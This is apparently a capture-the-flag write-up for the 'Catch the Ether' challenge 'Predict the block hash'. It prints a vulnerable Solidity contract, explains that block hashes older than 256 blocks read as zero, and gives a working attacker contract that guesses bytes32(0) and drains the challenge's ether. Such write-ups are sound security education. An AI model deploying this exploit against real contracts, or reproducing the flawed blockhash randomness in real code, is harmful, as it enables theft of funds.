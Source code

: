 # Catch the Ether 6: Predict the block hash

Random numbers cannot be created inside solidity, oracles are suggested

## The Task Intro

Guessing an 8-bit number is apparently too easy. This time, you need to predict the entire 256-bit block hash for a future block.

## The Task Code

```apache
pragma solidity ^0.4.21;

contract PredictTheBlockHashChallenge {
    address guesser;
    bytes32 guess;
    uint256 settlementBlockNumber;

    function PredictTheBlockHashChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(bytes32 hash) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = hash;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        bytes32 answer = block.blockhash(settlementBlockNumber);

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## The Solution

The task is the same as before, but now the possible solution seem ridiculously high. So another approach is needed - scary task at first. After 30minutes staring at this code I realized I need to think out of the box. Jeff showed in his task sheet a hint, that we should check how the blockhash works.

The solution is that the blockhash in solidity is only saved for the last 256 blocks. I need to guess a bytes32(0) value and attack after 257 blocks passed.

Done again, again 🎉️. Being proud that I solved all these challenges and documenting these now.

```apache
contract Crack {
    PredictTheBlockHashChallenge ptbhc;
    uint256 settlementBlockNumber;

    function Crack(PredictTheBlockHashChallenge _ptbhc) public payable {
        require(msg.value == 1 ether);
        ptbhc = _ptbhc;
    }

    function guess() public {
        ptbhc.lockInGuess.value(1 ether)(bytes32(0));
        settlementBlockNumber = block.number + 1;
    }

    function attack() public {
        if (block.number > settlementBlockNumber) {
            ptbhc.settle();
        }
    }

    function() public payable {}

    function payback() public {
        msg.sender.transfer(2 ether);
    }
}
```
